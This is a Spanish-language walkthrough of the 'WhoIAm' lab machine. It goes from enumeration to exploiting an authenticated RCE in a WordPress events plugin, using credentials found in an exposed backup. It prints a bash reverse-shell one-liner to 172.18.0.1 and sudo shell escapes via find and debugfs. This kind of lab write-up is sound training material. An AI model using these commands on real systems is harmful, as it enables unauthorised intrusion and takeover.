

# Máquina WhoIAm

---

Dificultad -> Facil


---


Primero, realizamos un escaneo con nmap para ver puertos y servicios abiertos

```shell
nmap -p- --open -sV -sC -sS --min-rate=5000 -n -Pn 172.18.0.2
------------------------------------------------------------
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-title: Whoiam
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-generator: WordPress 6.5.4
MAC Address: 02:42:AC:12:00:02 (Unknown)
```


Vemos que hay un Apache el puerto 80 asi que nos metemos a la página web


En esta solo vemos un texto y un boton que no hace nada  y en el codigo fuente no hay nada importante asi que procedo ha hacer fuzzing con gobuster

```shell
gobuster dir -u http://172.18.0.2 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x js,txt,php,html -t 64
```

```shell
/wp-content           (Status: 301) [Size: 313] [--> http://172.18.0.2/wp-content/]
/index.php            (Status: 301) [Size: 0] [--> http://172.18.0.2/]
/license.txt          (Status: 200) [Size: 19915]
/wp-includes          (Status: 301) [Size: 314] [--> http://172.18.0.2/wp-includes/]
/wp-login.php         (Status: 200) [Size: 4039]
/readme.html          (Status: 200) [Size: 7401]
/wp-trackback.php     (Status: 200) [Size: 135]
/wp-admin             (Status: 301) [Size: 311] [--> http://172.18.0.2/wp-admin/]
/backups              (Status: 301) [Size: 310] [--> http://172.18.0.2/backups/]
/xmlrpc.php           (Status: 405) [Size: 42]
/wp-signup.php        (Status: 302) [Size: 0] [--> http://172.18.0.2/wp-login.php?action=register]
/server-status        (Status: 403) [Size: 275]

```

Encontramos varios directorios con los que se puede identificar que la pagina esta echa con WordPress asi que procedo ha hacer un escaneo con wpscan

```shell
wpscan -e p,vt,cb,u --url 172.18.0.2
```

Mirando el escaneo podemos encontrar dos usuarios, erik y developer y un plugin vulnerable, modern-events-calendar-lite:


```shell
[i] Plugin(s) Identified:
[+] modern-events-calendar-lite
 | Location: http://172.18.0.2/wp-content/plugins/modern-events-calendar-lite/
 | Last Updated: 2022-05-10T21:06:00.000Z
 | [!] The version is out of date, the latest version is 6.5.6
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | Version: 5.16.2 (100% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://172.18.0.2/wp-content/plugins/modern-events-calendar-lite/readme.txt
 | Confirmed By: Change Log (Aggressive Detection)
 |  - http://172.18.0.2/wp-content/plugins/modern-events-calendar-lite/changelog.txt, Match: '5.16.2'


```

Con searchsploit, busco posiles exploits para esa version de ese plugin y encuentro un remote code, pero me pide unas credenciales

```shell
searchsploit modern-events-calendar-lite 5.16.2
----------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                   |  Path
----------------------------------------------------------------------------------------------------------------- ---------------------------------
Wordpress Plugin Modern Events Calendar 5.16.2 - Event export (Unauthenticated)                                  | php/webapps/50084.py
Wordpress Plugin Modern Events Calendar 5.16.2 - Remote Code Execution (Authenticated)                           | php/webapps/50082.py
----------------------------------------------------------------------------------------------------------------- --------------------------------
```

Buscando en los directorios encontrados anteriormente encuentro que en /backups existe una copia de seguridad de la base de datos que se puede descartar y dentro de esta obtengo las credenciales del usuario developer


```shell
| Username  |         Password        |
|-----------|-------------------------|
| developer | 2wmy3KrGDRD%RsA7Ty5n71L^|
|-----------|-------------------------|
```

Con estas credenciales, descargo y ejecuto el exploit anteriormente encontrado

```shell
searchsploit -m php/webapps/50082.py
```

```shell
python 50082.py -T 172.18.0.2 -P 80 -U / -u developer -p 2wmy3KrGDRD%RsA7Ty5n71L^
```

Al ejecutar el exploit nos dice que se a subido una shell a /wp-content/uploads/shell.php



Desde aqui nos mandamos una reverse shell con:

```shell
bash -c 'bash -i >& /dev/tcp/172.18.0.1/4444 0>&1'
```

Mientras que escuchamos en nuestra maquina con

```shell
nc -lvnp 4444
```

Hacemos [Tratamiento de la TTY](https://invertebr4do.github.io/tratamiento-de-tty/#) para operar con mas facilidad 


Buscamos posibles binarios y encontramos que podemos ejecutar find como el usuario rafa


Nos metemos a [GTFOBins](https://gtfobins.github.io/) , buscamos el binario find y lo ejecutamos como rafa:

```shell
sudo -u rafa find . -exec /bin/sh \; -quit
```

Volvemos a buscar posibles binarios y vemos que podemos escalar a ruben con el binario debugf


Volvemos a buscar en [GTFOBins]([https://gtfobins.github.io/](https://gtfobins.github.io/)) y ejecutamos el binario como ruben

```shell
sudo -u ruben debugfs
!/bin/sh
```

Buscamos binarios por tercera vez y por fin encontramos un archivo que podemos ejecutar como root


Viendo que no podemos editar de ninguna forma el script, investigando un poco encontre que se puede usar Bash eq para escalar en privilegios usando a[$(comando&2)] asi que ejecuto el archivo como sudo y le introduzco un /bin/bash


y finalmente acabamos siendo root.
